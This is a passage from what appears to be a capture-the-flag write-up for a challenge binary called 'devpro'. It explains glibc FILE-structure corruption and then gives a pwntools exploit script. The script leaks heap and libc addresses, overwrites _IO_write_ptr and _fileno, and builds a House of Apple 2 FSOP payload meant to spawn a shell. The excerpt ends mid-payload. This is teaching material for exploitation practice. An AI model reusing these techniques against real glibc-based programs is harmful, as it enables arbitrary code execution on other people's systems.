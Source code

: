 ```c
  ...
  return n - to_do;
}
libc_hidden_ver (_IO_new_file_xsputn, _IO_file_xsputn)
```

We can write any value from `_IO_write_ptr` to `_IO_write_end`. And if we set the LSB of `_IO_write_ptr` as zero, we can overwrite `FILE->_fileno` with 0. Then we can read from 0 file descriptor (stdin) and write any value! Lastly, overwrite FILE structure and do FSOP.

```python
from pwn import *
choice = lambda x:p.sendlineafter(b"> ", str(x).encode())
def openDev(idx):
    choice(1)
    choice(idx)

def allocBuf(size):
    choice(2)
    p.sendlineafter(b"Size: ", str(size).encode())

def readDev():
    choice(3)

def writeDev(data):
    choice(4)
    d = ''
    for i in data:
        d += hex(i)[2:] + ' '
    p.sendafter(b"Data: ", d.encode())

def closeDev():
    choice(5)

p = process('./devpro', aslr=1)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)

# 1. heap & glibc leak through OOB Read (/dev/null)
allocBuf(0x400)
openDev(2)
allocBuf(0x500)
readDev()
s = bytes.fromhex(p.recvline().replace(b' ', b'').decode())
heap = u64(s[0x418:0x420]) - 0x733
log.success(f"heap base @ {hex(heap)}") 
libc.address = u64(s[0x478:0x480]) - libc.symbols['_IO_2_1_stderr_']
log.success(f"libc base @ {hex(libc.address)}")
closeDev()

# 2. overwrite LSB of FILE->_IO_write_ptr with 0
openDev(3)
allocBuf(0x410 + 0x29)
readDev()

# 3. overwrite FILE->_fileno with 0
allocBuf(0x28)
writeDev(b'\x00'*0x18 + p64(libc.sym._IO_2_1_stderr_) + p64(0))

# 4. FSOP (House of Apple 2)
allocBuf(0x400)
payload = b'\x00'*0x408 + p64(0x1e1) + b' sh'.ljust(8, b'\x00')
payload += p64(0) * 12
payload += p64(libc.sym._IO_2_1_stderr_) + p64(3) + p64(0x0) * 2
payload += p64(heap + 0x790) + b'\xff'*8 + p64(0) + p64(heap + 0x6b0 - 0x10)
```